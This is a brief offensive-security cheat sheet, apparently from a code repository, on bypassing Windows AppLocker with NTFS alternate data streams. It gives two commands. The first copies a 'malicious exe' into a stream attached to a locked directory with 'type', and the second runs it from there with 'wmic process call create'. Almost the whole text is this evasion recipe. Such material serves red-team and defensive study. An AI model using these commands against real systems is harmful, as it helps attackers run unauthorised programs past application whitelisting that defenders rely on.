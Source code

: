## Bypass applocker using alternate data streams

### Copy malicious exe into the locked directory (current working directory must be one level above the locked directory)
```
type <path\to\file.exe> > .\<lockedDirectory>:<file.exe>
```

### Execute
```
wmic process call create '"%CD%\<lockedDirectory>:<file.exe>"'
```

